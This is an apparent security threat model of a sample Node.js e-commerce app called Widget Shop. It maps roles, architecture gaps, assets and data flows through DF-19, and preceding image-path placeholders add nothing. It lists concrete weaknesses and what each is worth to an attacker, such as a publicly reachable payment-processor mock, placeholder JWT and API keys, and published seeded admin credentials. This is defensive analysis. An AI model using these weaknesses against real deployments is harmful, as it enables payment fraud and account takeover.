










# Threat Model — Widget Shop (Node.js sample app)

Scope: `Sample Application/Node JS` (`api/`, `web/`, `fauxpay/`, `docker-compose.yml`, `.env*`, migrations/seeds), assessed against `Sample Application/DESIGN.md`. Nothing was modified.

---

## 1. Overview

**What the application does.** Widget Shop is a small e-commerce application. Guests browse a catalog of widgets; registered customers manage addresses, a cart, check out with a credit card, view their order history, and leave one 1–5 star review per purchased widget. Staff roles manage the catalog and handle money movement.

**Users and roles** (`api/src/db/migrations/20260101000001_create_users.js:7`):

| Actor | How they use it |
|---|---|
| **Guest** (unauthenticated) | Browse/search catalog (`GET /api/widgets`), read reviews, register, log in |
| **Customer** (`role=customer`, self-service registration) | Own profile/addresses, cart, checkout (creates orders + charges a card), own order history, create/edit/delete own reviews |
| **Admin** (`role=admin`, seeded) | Create/edit/soft-delete widgets and prices, create categories, read all orders, change any user's role, delete any review |
| **Customer Service** (`role=customer_service`, seeded) | Search all orders by customer email, read any order, issue full/partial refunds against the processor, create and progress exchanges |
| **FauxPay** (mock external processor) | Tokenizes cards for the browser, charges/refunds for the API |

Seeded staff credentials are documented publicly in `README.md:20-22` (`admin@widgetshop.test` / `ChangeMe123!`).

---

## 2. Architecture

**Shape.** Three-tier containerized app: a React/Vite SPA compiled to static files and served by nginx (which also reverse-proxies `/api/` and `/fauxpay/`), a stateless Express REST API using Knex against Postgres, and a separate Express "FauxPay" payment-processor mock. Docker Compose wires them; only the `web` container publishes a host port (`8080:80`, plain HTTP).

**Deviations from `DESIGN.md` that change the trust model:**

- The design's `gateway` container (§3.1, §3.3, §11.1) — TLS termination, rate limiting, JWT validation — **does not exist**. `web`'s nginx is the de-facto edge with none of those functions (`web/nginx.conf`).
- The payment processor, which the design places **outside** the trust boundary reached over HTTPS (§11.1), is an in-stack container, and nginx **publishes it to the internet** at `/fauxpay/*` (`web/nginx.conf:12-15`).
- Card tokenization, which the design says goes browser → processor directly and never through our infrastructure (§6, §3.1), is proxied **through our nginx** (`web/src/api/client.js:4`, `web/nginx.conf:12`).
- The design's two-token session model (§3.2: in-memory access token + rotating `HttpOnly` refresh cookie, `refresh_tokens` table, revocation, CSRF header, CSP) is **not implemented**: a single 12-hour JWT in `localStorage`, no refresh/revocation tables, no logout endpoint.
- `users.failed_login_attempts` / `locked_until` (§5, §7.1c), `password_reset_tokens` (§7.1a), and change-password (§7.1b) do not exist in the schema or code.



**Trust boundaries actually enforced:** (1) internet → nginx (none — no TLS, no authN, no rate limit); (2) nginx → api (JWT verification in `api/src/middleware/auth.js:11`, role checks at router level); (3) api → db (network isolation only, single superuser-ish app role); (4) internet → fauxpay (only a static shared API key, and `/tokenize` has none).

---

## 3. Assets

| Asset | Where | Value to an attacker |
|---|---|---|
| Raw PAN + expiry + CVV | Browser → `nginx` → `fauxpay /tokenize` (`web/src/api/client.js:77-86`, `fauxpay/src/server.js:29`) | Directly monetizable card fraud; cleartext HTTP makes interception trivial; brings our `web` container into PCI CDE |
| `processor_card_token` | `payments.processor_card_token` (`orders.js:80`) | Reusable, non-expiring bearer value that can charge a victim's card via the publicly reachable `/fauxpay/charge` |
| `FAUXPAY_API_KEY` | `.env:12`, `.env.example:12`, compose default `fauxpay_test_key` | Unlocks arbitrary charges and refunds at the processor |
| `JWT_SECRET` | `.env:9`, `.env.example:9` (identical placeholder) | Forge any identity/role → full application takeover |
| Password hashes | `users.password_hash` (bcrypt cost 10) | Offline cracking → credential reuse |
| Customer PII | `users.email/full_name`, `addresses.*` | Phishing, identity theft, doxxing; exposed wholesale to CS role and to any forged-token caller |
| Order/payment/refund history for all customers | `GET /api/cs/orders`, `GET /api/admin/orders` | Commercial intelligence, targeted social-engineering of refund fraud |
| Refund capability | `POST /api/cs/orders/:id/refunds` | Direct theft — moves money out to the original payment instrument |
| Exchange capability | `POST /api/cs/orders/:id/exchanges` | Free goods — ship replacement widgets never purchased |
| Catalog price & stock | `widgets.price_cents/stock_quantity` | Price manipulation; inventory zeroing = denial of sales / revenue loss |
| Review integrity | `reviews` | Astroturfing / competitor defamation |
| Session tokens at rest in browser | `localStorage['token']` (`client.js:6`) | 12-hour, non-revocable account takeover from any XSS or shared-machine access |

---

## 4. Data Flows

### DF-1 — Registration
Guest posts email/password/name; API rejects duplicate emails with a distinguishing 409, bcrypt-hashes, inserts `users` with role hardcoded `customer`, creates an empty cart, and immediately issues a 12-hour JWT. No email verification, no CAPTCHA, no rate limit. Users: Guest.

### DF-2 — Login
Guest posts email/password; API looks up by email, `bcrypt.compare`, issues 12-hour JWT with `{sub, email, role}`. No lockout, no attempt counter, no rate limit. Users: Guest, Customer, Admin, CS.

### DF-3 — Session bootstrap & logout
On SPA mount, `AuthContext` calls `GET /api/users/me` with the `localStorage` token to rehydrate the session. Logout only clears `localStorage` (no server call; `/api/auth/logout` is referenced by the client but does not exist in the API). Users: all authenticated.



### DF-4 — Browse catalog / search / widget detail
Public. `GET /api/widgets` filters `is_active=true`, optional `category_id` equality and `q` via `andWhereILike('name', '%q%')` (parameterized by Knex). `GET /api/widgets/:id` and `GET /api/categories` are public. The SPA's detail page actually reuses the list endpoint and filters client-side. Users: Guest, Customer, staff.

### DF-5 — Read reviews (public)
`GET /api/widgets/:id/reviews` joins `users` and returns rating, body, `user_id`, reviewer `full_name`, plus average/count. Users: anyone.

### DF-6 — Create review (verified purchase)
Authenticated customer posts `{rating, body}`; API requires an `order_items` row for that widget on a `paid` order owned by the caller, enforces one-per-(user,widget) at app level and by a unique index, stores `order_item_id`. Users: Customer.

### DF-7 — Edit / delete own review, and admin moderation delete
`PATCH/DELETE /api/reviews/:id` re-read the row and compare `review.user_id !== req.user.sub`; updates are restricted to an explicit `rating`/`body` allowlist. `DELETE /api/admin/reviews/:id` deletes any review under `requireRole('admin')`. Users: Customer (own), Admin (any).

```mermaid
sequenceDiagram
    actor G as Guest/Customer
    actor C as Customer
    actor A as Admin
    participant SPA
    participant API
    participant DB
    G->>SPA: Open catalog / detail (DF-4)
    SPA->>API: GET /api/widgets?q=&category_id=
    API->>DB: SELECT widgets WHERE is_active AND name ILIKE ?
    API-->>SPA: 200 [widgets]
    SPA->>API: GET /api/widgets/:id/reviews (DF-5)
    API->>DB: SELECT reviews JOIN users; AVG(rating), COUNT(*)
    API-->>SPA: 200 {reviews, average_rating, review_count}
    C->>SPA: Submit rating + body (DF-6)
    SPA->>API: POST /api/widgets/:id/reviews (Bearer)
    API->>DB: SELECT order_items JOIN orders WHERE user_id AND widget_id AND status='paid'
    alt no verified purchase
        API-->>SPA: 403 purchase required
    else already reviewed
        API-->>SPA: 409 already reviewed
    else ok
        API->>DB: INSERT reviews {user_id,widget_id,order_item_id,rating,body}
        API-->>SPA: 201 review
    end
    C->>SPA: Edit / delete own review (DF-7)
    SPA->>API: PATCH|DELETE /api/reviews/:id
    API->>DB: SELECT reviews WHERE id
    API->>API: assert review.user_id === req.user.sub
    API->>DB: UPDATE (rating/body allowlist) | DELETE
    API-->>SPA: 200 | 204
    A->>SPA: Moderation delete
    SPA->>API: DELETE /api/admin/reviews/:id (requireRole admin)
    API->>DB: DELETE reviews WHERE id
    API-->>SPA: 204
```

### DF-8 — Cart management
All under `requireAuth`. `getOrCreateCart(req.user.sub)` resolves the caller's own cart; item mutations are scoped by `{id, cart_id}`, quantities validated as positive integers. No per-item stock cap at add time, no maximum quantity. Users: Customer.

### DF-9 — Address list / create
`GET/POST /api/users/me/addresses`, always scoped to `req.user.sub`. Required-field validation only; no length or format limits. Users: Customer.



### DF-10 — Card tokenization
SPA posts `{card_number, exp_month, exp_year, cvv}` to same-origin `/fauxpay/tokenize`, which nginx proxies to `fauxpay:4000/tokenize`. FauxPay validates the digit pattern, generates `tok_<32 hex>`, stores `{last4, brand}` in an unbounded in-memory `Map`, returns the token. No authentication, no rate limit, no TLS. Users: Customer (and any anonymous internet caller).

### DF-11 — Checkout / order creation / charge
Authenticated customer posts `{shipping_address_id, card_token}`. API verifies the address belongs to the caller, loads the caller's cart items, **re-prices from `widgets.price_cents`** (client sends no prices), checks stock, then in one DB transaction inserts the order (`pending_payment`) + `order_items` and **decrements stock**. It then calls FauxPay `/charge` *outside* the transaction; on success it inserts `payments` (storing the card token, last4, brand), flips the order to `paid`, and clears the cart; on failure it sets the order `cancelled` and returns 402/502 — **without restoring stock**. Users: Customer.

```mermaid
sequenceDiagram
    actor C as Customer
    participant SPA
    participant NG as nginx
    participant FP as fauxpay
    participant API
    participant DB
    C->>SPA: Enter card + select address
    SPA->>NG: POST /fauxpay/tokenize {card_number, exp, cvv}  (DF-10, cleartext HTTP)
    NG->>FP: proxy_pass /tokenize (path stripped)
    FP->>FP: tokens.set(tok_xxx, {last4, brand})
    FP-->>SPA: 201 {card_token}
    SPA->>API: POST /api/orders {shipping_address_id, card_token} (DF-11)
    API->>DB: SELECT addresses WHERE id AND user_id=sub
    API->>DB: SELECT carts/cart_items WHERE user_id=sub
    API->>DB: SELECT widgets WHERE id IN (...) AND is_active  (authoritative re-pricing)
    API->>API: totalCents = SUM(widget.price_cents * qty)
    API->>DB: BEGIN; INSERT orders(pending_payment) + order_items; DECREMENT widgets.stock_quantity; COMMIT
    API->>FP: POST /charge {card_token, amount_cents, order_id} + Bearer API key
    alt charge captured
        FP-->>API: {transaction_id, status, last4, brand}
        API->>DB: INSERT payments (processor_card_token, last4, brand)
        API->>DB: UPDATE orders SET status='paid', payment_id
        API->>DB: DELETE cart_items WHERE cart_id
        API-->>SPA: 201 order
    else charge fails
        FP-->>API: 4xx {error}
        API->>DB: UPDATE orders SET status='cancelled'
        Note over API,DB: stock decrement is NOT reversed
        API-->>SPA: 402/502 {error, detail}
    end
```

### DF-12 — Order history / order detail (customer)
`GET /api/orders` scoped to `user_id = req.user.sub`; `GET /api/orders/:id` scoped by `{id, user_id}` and returns line items. Users: Customer.

### DF-13 — Admin catalog management
`requireAuth + requireRole('admin')` at router level. Create widget validates `sku`, `name`, non-negative integer `price_cents`; patch uses an explicit field allowlist and revalidates `price_cents`; delete is a soft `is_active=false`; `POST /api/admin/categories` creates a category. `created_by`/`updated_by` are stamped from the token subject. Users: Admin.

### DF-14 — Admin view all orders
`GET /api/admin/orders` returns every order row, read-only. Users: Admin.

### DF-15 — Admin change user role
`PATCH /api/admin/users/:id/role` validates the role against a three-value allowlist and updates any user. No audit record, no self-demotion guard, no last-admin guard, no re-authentication. Users: Admin.



### DF-16 — CS order lookup
`requireAuth + requireRole('customer_service')` at router level. `GET /api/cs/orders?email=` joins `users` and does a substring `ILIKE '%email%'` over all customers, returning every matching order with the customer email. `GET /api/cs/orders/:id` returns any order plus items, refunds, exchanges. Users: CS.

### DF-17 — CS refund
`POST /api/cs/orders/:id/refunds {amount_cents, reason}`: validates positive integer amount, loads the order and its linked payment, sums prior refunds and rejects if `refundedSoFar + amount > order.total_cents`, calls FauxPay `/refund` against `payment.processor_transaction_id`, inserts a `refunds` row with `issued_by`, and updates payment/order status. No idempotency key, no second-person approval, no cap re-check inside a DB transaction. Users: CS.

### DF-18 — CS exchange create / progress
`POST /api/cs/orders/:id/exchanges` inserts an exchange with client-supplied `returned_widget_id`, `returned_quantity`, `replacement_widget_id`, `replacement_quantity`, `notes` — none validated against the order's actual line items — and sets the order to `exchange_pending`. `PATCH /api/cs/exchanges/:id` accepts any of the four statuses in any order; `completed` sets the order to `exchanged`, `rejected` sets it back to `paid`. No stock movement and no price-difference settlement are implemented. Users: CS.

```mermaid
sequenceDiagram
    actor CS as Customer Service
    participant SPA
    participant API
    participant FP as fauxpay
    participant DB
    CS->>SPA: Search by customer email (DF-16)
    SPA->>API: GET /api/cs/orders?email=foo
    API->>API: requireAuth + requireRole('customer_service')
    API->>DB: SELECT orders JOIN users WHERE users.email ILIKE '%foo%'
    API-->>SPA: 200 [orders + customer_email]
    CS->>SPA: Open order
    SPA->>API: GET /api/cs/orders/:id
    API->>DB: SELECT order, order_items, refunds, exchanges
    API-->>SPA: 200 order detail
    CS->>SPA: Issue refund (DF-17)
    SPA->>API: POST /api/cs/orders/:id/refunds {amount_cents, reason}
    API->>DB: SELECT orders, payments; SUM(refunds.amount_cents)
    API->>API: assert refundedSoFar + amount <= order.total_cents
    API->>FP: POST /refund {transaction_id, amount_cents}
    FP-->>API: {refund_id, status}
    API->>DB: INSERT refunds (issued_by=sub); UPDATE payments.status, orders.status
    API-->>SPA: 201 refund
    CS->>SPA: Create exchange (DF-18)
    SPA->>API: POST /api/cs/orders/:id/exchanges {returned_widget_id, replacement_widget_id, qty...}
    API->>DB: INSERT exchanges(status='requested'); UPDATE orders SET status='exchange_pending'
    API-->>SPA: 201 exchange
    CS->>SPA: Progress exchange
    SPA->>API: PATCH /api/cs/exchanges/:id {status}
    API->>DB: UPDATE exchanges; UPDATE orders (exchanged | paid)
    API-->>SPA: 200 exchange
```

### DF-19 — API → Database
`api/src/db/knexfile.js` builds a `pg` connection from `DB_HOST/PORT/NAME/USER/PASSWORD` env vars, defaulting the password to `'widgetshop'`. All queries go through the Knex query builder — no `knex.raw`/string concatenation anywhere in `api/src`. No TLS on the Postgres connection; `db` is `expose`-only. Users: api container (service account).

